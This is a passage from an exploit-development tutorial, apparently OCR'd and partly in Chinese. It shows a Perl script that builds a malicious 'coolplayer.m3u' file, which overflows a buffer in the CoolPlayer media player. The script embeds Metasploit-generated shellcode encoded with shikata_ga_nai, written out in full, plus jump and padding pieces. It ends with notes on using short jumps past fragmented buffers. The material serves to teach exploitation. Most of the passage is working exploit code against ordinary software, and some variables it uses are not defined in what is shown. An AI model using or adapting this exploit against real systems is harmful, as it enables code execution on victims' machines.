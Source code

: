     # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
    "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $junk.$jmp.$eip.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

如果您的缓冲区被应用程序分段，则可以使用多个短跳转跳转到您的shellcode。在这种情况下，我们的缓冲区被碎片化，我们需要使用多个短跳转跳过垃圾字符（由\ xcc表示）。这是它在堆栈上的样子：
